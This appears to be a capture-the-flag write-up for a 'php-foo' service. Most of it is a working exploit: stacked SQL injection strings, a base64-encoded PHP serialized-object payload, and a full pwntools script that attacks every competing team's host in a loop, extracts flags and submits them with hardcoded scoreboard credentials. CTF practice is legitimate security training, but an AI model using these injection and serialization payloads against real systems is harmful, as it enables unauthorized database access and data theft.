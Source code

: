 ## Challenge `php-foo`
===

# Application:

The application stores secret records with the following opitons:

```
    Welcome!
    You can do the following:
        0) encrypt
        1) decrypt
        2) store new record
        3) retrieve your record
        4) exit

    What do you want to do?
```

if we look into the code from `troll.php`, we see that messages wont be encrypted at all:
![not encrypted](not_crypted.png)

furthermore we see a possible injection in `crypto.php`
![not encrypted](injection.png)

# Exploit:

to exploit the vulernability, we decided to do a multistage payload.

1. Insert an entry of our liking with a primary key of our liking.
2. Get the primary key of the latest entry starting with "FLAG" and write it in the entry of step 1.
3. use the vlaue of entry created in step 1. and updated in step 2. as primary key to retreive the data.
4. submit the flag to the flagserver.

the injection strings will look like that:

```python
stage1 = 'insert into record values("%s","foo","12");' % _pkey
stage2 = 'update record set record = (select identifier from record where record like "FLG%%" order by time desc limit 1) where identifier = "%s" ;' % _pkey
stage3 = 'select record from record where identifier = "%s"' % _pkey
```

the stages need some additional wrapping which is done by the following function:

```python
def getStage(input):
    return "baar', 'foo'); %s ; insert into record values ('foobar6','foobar6"  % input
```

in step 3, we actually have to somehow "serialize" the data
which we did with the following function:

```python
def bake64(input):
    _size = len(input)
    temp = 'a:1:{i:0;O:6:"Record":1:{s:10:"identifier";s:%s:"%s";}}' % (_size,input)
    return base64.b64encode(temp)
```

to not interfere with previous runs of the exploit or another instance of our exploit we generate a timestamp on our primary key

```python
_pkey = 're1n3r'+str(int(time.time()))
```


# Final exploit

```python
from pwn import *
import requests
import base64
import time
from requests.auth import HTTPBasicAuth
import itertools
import traceback
import random
context.log_level = 'info'

_pkey = 're1n3r'+str(int(time.time()))

stage1 = 'insert into record values("%s","foo","12");' % _pkey
stage2 = 'update record set record = (select identifier from record where record like "FLG%%" order by time desc limit 1) where identifier = "%s" ;' % _pkey
stage3 = 'select record from record where identifier = "%s"' % _pkey


def bake64(input):
    _size = len(input)
    temp = 'a:1:{i:0;O:6:"Record":1:{s:10:"identifier";s:%s:"%s";}}' % (_size,input)
    return base64.b64encode(temp)


def getStage(input):
    return "baar', 'foo'); %s ; insert into record values ('foobar6','foobar6"  % input


while True:
    resp_machines = requests.get('https://scoreboard.ctf.cinsects.de/ctf/targets/', auth=HTTPBasicAuth('Re1n3r', 'lolwut'),verify=False)
    data_machines = resp_machines.json()
    # specify service
    service_go = 'go-foo'

    # store all flags here
    flags = []
    test = data_machines[service_go].items()
    random.shuffle(test)
    # for each machine
    for team, value in test :
            ip = value[0]
            try:
                t = remote(ip, 1338,timeout=20)
                for limit in itertools.count():
                        t.recvuntil('What do you want to do?')
                        t.sendline('2')
                        t.recvuntil('add: ')
                        #insert cyber123
                        t.sendline(getStage(stage1))
                        t.recvuntil('What do you want to do?')
                        t.sendline('2')
                        t.recvuntil('add: ')
                        #get actual flag key and write it into cyber123 pkey
                        t.sendline(getStage(stage2))
                        t.recvuntil('What do you want to do?')
                        t.sendline('3')
                        r1 = t.recvuntil('identifier: ')
                        print r1
                        #retreive key from cyber123 pkey
                        t.sendline(bake64(_pkey))
                        print("stage 3:")
                        flagkey = t.recvline()
                        print("flagkey: %s" % flagkey)
                        flagkey = flagkey.replace('\n','').replace('\r','')
                        pprint(flagkey)
                        t.recvuntil('What do you want to do?')
                        t.sendline('3')
                        t.sendline(flagkey)
                        keys = t.recvuntil("Welcome")
                        keys = keys.split(":")[2].strip().replace('\n','').replace('\r','').replace('Welcome','')
                        print("keys: %r" % keys)
                        ##########
                        t.recvuntil('What do you want to do?')
                        t.sendline('3')
                        print("SENDLINE 3")
                        t.sendline(bake64(keys))
                        myflag = t.recvuntil("Welcome!")
                        print("WELCOME AGAIN")
                        print("flag: %r" % myflag)
                        t.close()
                        print("send flag: %r" % myflag)

                        mo = re.search(r'\b(FLG[0-9a-zA-Z]{30})\b', myflag)
                        if mo:
                            actual_flag = mo.group(0)
                            url = 'https://scoreboard.ctf.cinsects.de/ctf/submit_flag/'
                            resp_flags = requests.post(url, auth=HTTPBasicAuth('Re1n3r', 'lolwut'), json={'flags': [actual_flag]})
                            print(resp_flags.text)

            except Exception as e:
                #traceback.print_exc()
                print("shit... %s" % e )
                continue
    time.sleep(300)


```
